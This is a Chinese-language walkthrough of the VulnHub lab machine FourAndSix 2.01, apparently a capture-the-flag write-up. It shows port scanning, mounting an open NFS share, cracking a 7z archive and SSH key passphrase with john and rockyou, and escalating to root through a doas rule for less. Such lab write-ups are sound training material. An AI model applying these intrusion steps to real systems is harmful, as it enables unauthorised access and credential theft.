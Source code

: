 # FourAndSix: 2.01

2024-6-9 https://www.vulnhub.com/entry/fourandsix-201,266/

difficulty: easy

## IP

192.168.5.33

## Scan

Open Port -> 22,111

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 ef3b2ecf40199ebb231eaa24a1094ed1 (RSA)
|   256 c85c8b0be1640c75c363d7b380c92fd2 (ECDSA)
|_  256 61bc459abaa5472060132519b047cbad (ED25519)
111/tcp open  rpcbind 2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3         2049/tcp   nfs
|   100003  2,3         2049/udp   nfs
|   100005  1,3          941/udp   mountd
|_  100005  1,3          951/tcp   mountd
```

在扫描下 UDP 端口：

```
PORT     STATE SERVICE
111/udp  open  rpcbind
2049/udp open  nfs
```

看到 nfs 2049 的 udp 端口，看看暴漏出哪些映射：

```
showmount -e 192.168.5.33
Export list for 192.168.5.33:
/home/user/storage (everyone)
```

挂在到 kali:

```
mkdir -p /tmp/nfs
sudo mount -t nfs -o rw,vers=3 192.168.5.33:/home/user/storage /tmp/nfs
```

挂在后，进入/tmp/nfs,里面有一个 backup.7z 文件，进行解压，需要解压密码，使用 john+rockyou 进行破解。

7z2john 使用前需要安装一个依赖库:

```
sudo apt install libcompress-raw-lzma-perl -y

locate 7z2john
/usr/share/john/7z2john.pl

/usr/share/john/7z2john.pl backup.7z > hash
john hash --wordlist=~/tools/dict/rockyou.txt
chocolate        (backup.7z)
```

找到了解压密码 chocolate 进行解压，得到了几个图片和一个 ssh 密钥对。id_rsa.pub 中得到用户名 user，使用此用户名和私钥进行 ssh 登陆：

```
ssh -i id_rsa user@192.168.5.33
```

发现 id_rsa 也需要密码，继续用 john 进行破解，得到密码 12345678，继续 ssh 登陆，登陆成功。

查看 /etc/passwd 只有一个 user 普通用户。

openbsd 没有 sudo，只有 doas，查看它的配置文件：

```
/etc/doas.conf

permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
permit nopass keepenv root as root
```

user 用户可以执行/usr/bin/less，看看 GTFO less 怎么提权：

```
doas /usr/bin/less /var/log/authlog
# Press v to escape vi then
:!sh

fourandsix2# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
fourandsix2# cd /root
fourandsix2# ls
.Xdefaults .cshrc     .cvsrc     .forward   .login     .profile   .ssh       flag.txt
fourandsix2# cat flag.txt
Nice you hacked all the passwords!

Not all tools worked well. But with some command magic...:
cat /usr/share/wordlists/rockyou.txt|while read line; do 7z e backup.7z -p"$line" -oout; if grep -iRl SSH; then echo $line; break;fi;done

cat /usr/share/wordlists/rockyou.txt|while read line; do if ssh-keygen -p -P "$line" -N password -f id_rsa; then echo $line; break;fi;done

Here is the flag:
acd043bc3103ed3dd02eee99d5b0ff42
```
